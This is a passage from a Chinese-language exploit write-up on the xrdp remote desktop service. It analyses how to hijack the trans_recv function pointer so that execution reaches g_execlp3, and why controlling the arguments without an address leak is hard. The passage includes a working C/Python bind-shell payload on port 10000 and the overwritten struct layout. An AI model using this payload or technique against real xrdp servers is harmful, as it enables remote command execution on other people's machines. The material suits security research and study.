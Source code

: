 ```
 
int
g_execlp3(const char *a1, const char *a2, const char *a3)
{
    ......
    g_strnjoin(args_str, ARGS_STR_LEN, " ", args, 2);
    ......
    g_rm_temp_dir();
    rv = execlp(a1, a2, a3, (void *)0);
    ......
}
```  
  
  
因为 xrdp 服务是通过 socket 进行通信的，因此让其打开 “/bin/sh” 是不够的，想要让它能够完成任意命令执行，最好还是让它反弹一个 shell 出来比较合适，比方说：  
```
#include<stdlib.h>
int main()
{
    char ars2[]="-cimport socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((\"\",10000));s.listen();c,_=s.accept();f=c.fileno();os.dup2(f,0);os.dup2(f,1);os.dup2(f,2);os.system(\"sh\");";
    execlp("python3","python3",ars2,0);
    return 0;
}
```  
  
  
这个格式就比较像 g_execlp3 的实现了对吗？看起来似乎相当可行，但是笔者在经过各种各样的尝试以后放弃了这个做法，因为精准的控制参数是一件极其困难的事情。  
###   
### 参数控制的难点  
```
read_bytes = self->trans_recv(self, self->in_s->end, to_read);
```  
  
  
假设我们令 self->trans_recv 为 g_execlp3 ，那么我们就需要令 self 指向 “python3”，self->in_s->end 也是一个指向 “python3” 字符串的指针，以及 to_read 必须为一个指向参数的指针。  
  
  
通过 IDA 搜索二进制程序中的字符串可以发现，唯一一个或许能用的字符串只有 "/bin/sh"，因此所有的参数字符串都需要我们一起放在 payload 中输入到内存里去才行。  
  
  
但是有与常规的 CTF PWN 题不同的是，用户通过 socket 进行交互，泄露地址是一件比较麻烦的事情，大部分情况下甚至连回显都拿不到，更何况就算有办法拿到回显，泄露地址的参数也仍然需要控制，因此又要绕回到这个问题上，因此只好考虑如何在无地址的情况下完成利用。  
###   
### 覆盖结构体的细节  
```
struct trans
{
    tbus sck; /* socket handle */
    int mode; /* 1 tcp, 2 unix socket, 3 vsock */
    int status;
    int type1; /* 1 listener 2 server 3 client */
    ttrans_data_in trans_data_in;
    ttrans_conn_in trans_conn_in;
    void *callback_data;
    int header_size;
    struct stream *in_s;
    struct stream *out_s;
    char *listen_filename;
    tis_term is_term; /* used to test for exit */
    struct stream *wait_s;
    char addr[256];
    char port[256];
    int no_stream_init_on_data_in;
    int extra_flags; /* user defined */
```